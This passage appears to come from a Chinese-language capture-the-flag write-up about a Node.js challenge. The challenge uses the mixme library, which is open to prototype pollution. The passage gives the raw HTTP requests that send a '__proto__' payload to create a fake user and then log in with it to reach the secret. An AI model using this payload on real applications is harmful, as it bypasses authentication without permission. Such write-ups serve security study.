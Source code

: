 ```javascript
            res.send("You are not the Super, so I cannot give you the truth.");
        }
    }
});

app.all("/", (req, res) => {
    let data = { userid: [], key: [] };
    console.log(data);
    console.log(req.body);
    if (req.method == "POST" && req.body) {
        data = mixme.merge(data, req.body);
        req.session.data = data;
        // console.log("After MERGE: " + Super["test"]);
    }
    res.send("to be admin and you will find it!");
});

app.listen(3000, () => console.log(`Example app listening on port 3000!`));
```

分析源码发现，如果需要`/getinfo`返回对应秘密信息，就必须要是super用户，但是super中的值信息是系统变量我们没有办法获取，因此必须要想办法新加一个用户上去。经过审计源码，发现题目使用了mixme，而mixme是存在原型链污染漏洞的。

```
POST / HTTP/1.1
Host: 192.168.43.184:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Cache: no-cache
Content-Length: 31
Connection: close

{"__proto__": {"test": "test"}}
```

所以在此处完成原型链污染来加一个账户上去，之后便可以用我们新加的账户来认证登录

```
POST /getinfo HTTP/1.1
Host: 192.168.43.184:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Cache: no-cache
Content-Length: 20
Connection: close

userid=test&key=test
```

